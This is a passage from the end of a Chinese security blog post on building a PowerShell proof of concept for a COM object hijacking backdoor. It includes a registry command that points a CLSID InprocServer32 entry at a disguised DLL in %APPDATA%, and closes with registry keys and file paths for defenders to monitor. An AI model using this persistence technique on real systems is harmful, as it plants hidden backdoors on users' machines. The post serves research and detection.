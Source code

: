 **3、创建payload文件**

首先判断操作系统

```
if ([Environment]::Is64BitOperatingSystem)
{
        Write-Host "[+] OS: x64"       
}
else
{
        Write-Host "[+] OS: x86"
}
```

不同系统释放不同文件

释放文件依旧使用base64，可参考文章：https://3gstudent.github.io/3gstudent.github.io/Use-Office-to-maintain-persistence/

**4、创建注册表**

修改注册表默认值，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-4/3-1.png)

在powershell下，需要使用特殊变量`"(default)"`

eg：

```
$RegPath="HKCU:Software\Classes\CLSID\"
New-ItemProperty $RegPath"{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}\InprocServer32" "(default)" -value $env:APPDATA"\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\api-ms-win-downlevel-1x86-l1-1-0._dl" -propertyType string | Out-Null
```


完整POC已上传至Github，地址为：https://github.com/3gstudent/COM-Object-hijacking


## 0x05 防御检测
---

结合利用方法，注意监控以下位置：

### 1、注册表键值

- HKCU\Software\Classes\CLSID\{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}\
- HKCU\Software\Classes\Wow6432Node\CLSID\{BCDE0395-E52F-467C-8E3D-C4579291692E }

### 2、文件路径

`%APPDATA%\Roaming\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\`

命名方式：`api-ms-win-downlevel-[4char-random]-l1-1-0._dl`

## 0x06 小结
---

本文介绍了通过COM Object hijacking实现的后门利用方法，使用powershell脚本编写POC，分享POC开发中需要注意的细节，结合实际利用过程分析该后门的防御方法。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)
